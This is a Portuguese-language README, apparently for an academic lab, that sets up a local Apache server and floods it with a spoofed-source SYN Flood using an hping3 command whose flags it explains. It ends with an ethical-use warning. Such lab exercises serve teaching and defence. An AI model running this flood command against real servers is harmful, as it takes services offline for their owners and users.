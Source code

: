 
---

# Simulação de Ataque DDoS  

Este projeto tem como objetivo simular um ataque DDoS (Distributed Denial of Service) em um servidor, utilizando a técnica **SYN Flood** para explorar vulnerabilidades na camada de transporte do modelo OSI.

---

## 📋 Sobre o Ataque  

### SYN Flood  
O **SYN Flood** é um tipo de ataque de negação de serviço (Denial of Service - DoS) que utiliza requisições TCP SYN para sobrecarregar o servidor, esgotando seus recursos e impedindo que ele processe novas conexões legítimas.

---

## 🚀 Preparação do Ambiente  

### Requisitos  
1. **Sistema Operacional Linux:** Utilize o **WSL2** (Windows Subsystem for Linux) para executar o subsistema Linux.  
2. **Ferramentas Necessárias:**  
   - Apache Server  
   - Hping3  

---

## 🛠️ Passo a Passo  

### 1. Configuração do Servidor  

#### Instalar o Apache Server  
Execute o comando abaixo para instalar o servidor Apache:  

```bash  
sudo apt-get install apache2  
```  

#### Iniciar o Servidor  
Ative e inicie o serviço do Apache:  

```bash  
sudo systemctl enable apache2  
sudo systemctl start apache2  
```  

#### Verificar o Status do Servidor  
Certifique-se de que o servidor está rodando:  

```bash  
sudo systemctl status apache2  
```  

#### Acessar o Conteúdo do Servidor  
1. Descubra o IP local do servidor:  
   ```bash  
   hostname -I  
   ```  
   (O comando retorna o IP local. Use a letra "I" maiúscula.)  
2. Copie o IP retornado e cole no navegador. A página inicial do servidor será exibida.  

---

### 2. Realizar o Ataque  

#### Instalar o Hping3  
Instale a ferramenta **hping3**, que será usada para simular o ataque:  

```bash  
sudo apt install hping3  
```  

#### Executar o Ataque SYN Flood  
Utilize o seguinte comando para realizar o ataque no servidor:  

```bash  
sudo hping3 -S -p 80 --flood --rand-source [IP_DO_SERVIDOR]  
```  

- **-S**: Envia pacotes SYN.  
- **-p 80**: Alvo na porta 80 (HTTP).  
- **--flood**: Envia pacotes continuamente.  
- **--rand-source**: Usa IPs de origem aleatórios.  
- **[IP_DO_SERVIDOR]**: Substitua pelo IP do servidor identificado no passo anterior.  

---

## ⚠️ Avisos  

- **Uso Ético:** Este trabalho é destinado exclusivamente para fins acadêmicos. Ataques DDoS são ilegais se realizados sem autorização.  
- **Impacto:** Realize o teste em um ambiente controlado para evitar prejudicar outros sistemas.  

--- 

Com essa estrutura, o conteúdo está mais organizado, com explicações claras e formatadas.


Repositórios de referência: https://github.com/dunossauro/live-de-python/blob/main/codigo/Live206/dunotop.py